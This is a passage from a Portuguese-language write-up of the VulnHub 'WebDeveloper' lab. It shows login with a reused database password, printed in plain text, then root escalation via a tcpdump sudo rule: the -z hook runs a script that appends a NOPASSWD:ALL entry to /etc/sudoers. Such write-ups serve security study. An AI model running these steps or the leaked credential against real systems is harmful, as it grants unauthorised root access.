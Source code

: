 > - **webdeveloper:MasterOfTheUniverse**


# Usuario webdeveloper

Conseguimos logar com o usuario webdeveloper, aproveitando a reutilizacao da senha do banco de dados, **webdeveloper:MasterOfTheUniverse**

![](/assets/img/Vulnhub/WebDeveloper/webdeveloper.png)


## Escalando Privilegio

Seguindo a metodologia a primeira coisa que verificamos foi se o usuario tem permissao para usar algum comando com o **sudo**. Agora sabemos que o usuario pode executar o **tcpdump** como root, usando o sudo.

```bash
sudo -l
```

![](/assets/img/Vulnhub/WebDeveloper/sudo-l.png)


### TCPDUMP

Depois de tentar diversas formas, sem sucesso, para conseguir escalar privilegio com o tcpdump a unica que conseguimos foi adicionando o usuario ao /etc/sudoers. O passo a passo e o seguinte:

```bash
echo 'echo "webdeveloper ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /tmp/charlie && chmod +x /tmp/charlie

cat /tmp/charlie

sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/charlie -Z root

sudo -l
```

![](/assets/img/Vulnhub/WebDeveloper/tcpdump-root.png)